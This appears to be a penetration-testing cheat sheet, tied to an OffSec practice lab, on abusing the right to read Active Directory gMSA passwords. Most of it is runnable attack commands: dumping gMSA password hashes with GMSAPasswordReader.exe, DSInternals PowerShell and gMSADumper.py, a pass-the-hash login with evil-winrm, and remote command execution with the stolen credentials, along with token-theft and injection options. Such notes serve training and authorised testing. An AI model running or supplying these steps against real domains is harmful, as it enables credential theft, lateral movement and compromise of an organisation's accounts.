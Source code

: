 ### Abusing the Ability to Read GMSA Passwords

#### Overview
There are several ways to abuse the ability to read the Group Managed Service Account (gMSA) password. These methods exploit the intended behavior of gMSAs when they are logged on to computers or when you have access to their credentials. Below is a professional, streamlined cheat sheet outlining these methods and their execution.

---

### Abuse Scenarios

#### 1. GMSA Logged On to a Computer
- **Description**: If the gMSA is currently logged on to a computer account with permission to retrieve its password:
  - **Action**: Steal the token from the process running as the gMSA.
  - **Alternative**: Inject into the process running as the gMSA.

#### 2. GMSA Not Logged On to a Computer
- **Description**: If the gMSA is not logged on to a computer:
  - **Action**: Create a scheduled task or service to run as the gMSA.
  - **Execution**: The computer account will start the task or service as the gMSA, allowing you to abuse the gMSA logon in the same manner as a standard user.
  - **Reference**: See the "HasSession" help modal for additional details on this technique.

---

### Methods to Retrieve gMSA Passwords

#### Using [GMSAPasswordReader.exe](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/raw/refs/heads/main/Tools/GMSAPasswordReader.exe)
``` shell
.\GMSAPasswordReader.exe --accountname 'Target_Account'
```
![image](https://github.com/user-attachments/assets/5bd3e7f0-c1d6-4eef-b6b0-9491a5d09c59)
`The rc4_hmac hash is the same as the NT hash, they are interchangeable.`
With the user’s NTLM hash, we can perform a pass-the-hash attack using evil-winrm to get a foothold on the victim. 
```shell
evil-winrm -i <Target-IP> -u svc_apache$ -H 41bcd07b8cc9636826fe07ff9539ca57
```

#### **Using Active Directory and DSInternals PowerShell Modules**

1. Save the gMSA password blob to a variable:
   ```powershell
   $gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
   $mp = $gmsa.'msDS-ManagedPassword'
   ```

2. Decode the data structure using the DSInternals module:
   ```powershell
   ConvertFrom-ADManagedPasswordBlob $mp
   ```

3. Build an NT-Hash for Pass-the-Hash (PTH):
   ```powershell
   (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
   ```

4. Alternatively, create a Credential Object with the plain password:
   ```powershell
   $cred = New-Object System.Management.Automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
   ```

---

### Using Credentials

#### **Option 1: Create a New Session**
1. Start a new session:
   ```powershell
   $session = New-PSSession -ComputerName 127.0.0.1 -Credential $cred
   ```

2. Enter the session:
   ```powershell
   Enter-PSSession -Session $session
   ```

3. Run commands remotely:
   ```powershell
   Invoke-Command -Session $session -ScriptBlock { whoami; hostname }
   ```

#### **Option 2: Run Commands via CIM**
1. Build the command:
   ```powershell
   $Command = 'whoami'
   Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine=$Command}
   ```
# From kali linux we can use tool [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper/tree/main)
Reads any gMSA password blobs the user can access and parses the values.
```shell
python3 gMSADumper.py -u user -p password -d domain.local
```
Pass the Hash, specific LDAP server:
```shell
python gMSADumper.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```
Kerberos Authentication, specific LDAP server:
```shell
python gMSADumper.py -k -d domain.local -l dc01.domain.local
```
### Machine [Heist](https://portal.offsec.com/labs/practice)
